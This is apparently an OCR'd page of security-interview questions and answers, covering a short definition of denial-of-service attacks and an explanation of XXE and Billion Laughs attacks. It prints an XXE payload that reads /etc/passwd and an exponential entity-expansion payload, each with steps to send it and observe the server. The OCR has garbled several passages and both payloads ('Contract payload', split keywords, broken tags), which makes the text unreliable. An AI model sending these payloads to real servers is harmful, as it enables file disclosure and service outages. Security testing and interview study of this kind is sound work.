 # DOS
Define DOS attacks for web applications? How would you identify it without causing considerable damage?
## Answer
The Denial of Service (DoS) attack is focused on making a resource (site, application, server) unavailable for the purpose it was designed.

# XML
Are you familiar with XXE (XML External Entity) attacks? 
*	How would you test for it? 
*	How would you test for an XXE attack vs a XML Entity Expansion (Billion Laughs) attack?
## Answer
XML External Entity attack occurs when the XML input containing a reference to an external entity is processed by an insecurely configured XML parser. 
XML parsers can provide a feature enabling external entities to be processed at run-time which can enable attackers to retrieve files from the local filesystem.
* Inject tags and observe how the server is handling the input(look for XML errors)
Contract payload and send
```
<?xml version="1.0"? >
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd"  >]>
<foo>&xxe;</ foo>
```
Observe the response to look for signs of successful inclusion of the referenced file, such as the following:
* Inject tags and observe how the server is handling the input(look for XML errors)
Contract payload and send
```
<?xml version="1.0"? >
<!DOCTYPE xee  [
<!E LEMENT xee (# PCDATA)>
<!ENT ITY laugh0 "ha" >
<!ENTITY laugh1 "&laugh0;&laugh0;" >
<!ENTITY laugh 2 "&laugh1;&laugh1;" >
<!ENTITY laugh 3 "&laugh2;&laugh2;" >
<!ENTITY laugh 4 "&laugh3;&laugh3;" >
<!ENTITY laugh 5 "&laugh4;&laugh4;" >
<!ENTITY laugh 6 "&laugh5;&laugh5;" >
<!ENTITY laugh 7 "&laugh6;&laugh6;" >
<!ENTITY laugh 8 "&laugh7;&laugh7;" >
<!ENTITY laugh 9 "&laugh8;&laugh8;" >
<!ENTITY laugh "&laugh9;&laugh9;" >
 ]>
<xee>&laugh;</ xee>
```
Observe the response to see there is any delay in the response time or other sign of impact . 
